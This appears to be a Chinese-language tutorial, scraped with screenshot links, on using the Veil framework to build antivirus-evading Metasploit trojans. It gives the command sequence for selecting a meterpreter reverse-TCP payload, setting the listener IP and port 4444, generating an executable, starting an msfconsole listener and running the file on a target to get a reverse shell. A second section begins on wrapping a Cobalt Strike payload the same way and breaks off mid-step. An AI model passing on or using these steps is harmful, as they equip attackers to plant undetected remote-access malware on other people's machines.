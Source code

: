   * Ordnance可生成shellcode

###  

### 生成msf免杀payload

  

  
| `进入Evasion  
use 1`  
---|---  
  
![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210810100653.png)

  

`查看可用的payloads  
list payloads`  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210810100654.png)

  

`选择要使用的payloads，如选择ruby的meterpreter/rev_tcp  
use 39`  
`设置监听ip和端口  
set lhost xx.xx.xx.xx  
set lport 4444`  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210810100655.png)

  

`生成可执行文件并取名test  
generate  
test  
由于刚才配置了映射路径，可执行文件被生成在本机的/tmp/veil-output/compiled路径下，对应的msf的配置文件被生成在/tmp/veil-
output/handlers路径下  
  
在本地使用msf配置文件开启msf监听  
msfconsole -r test.rc  
  
将test.exe传入目标机器，并运行，反弹回shell`  

### 使用自定义payload生成免杀木马

  

使用cs的payload为例

  

首先在cs的界面，攻击-生成后门-payload generator-veil，保存为payload.txt

开启veil，之前步骤同上

  

`选择13号payload  
generate`  
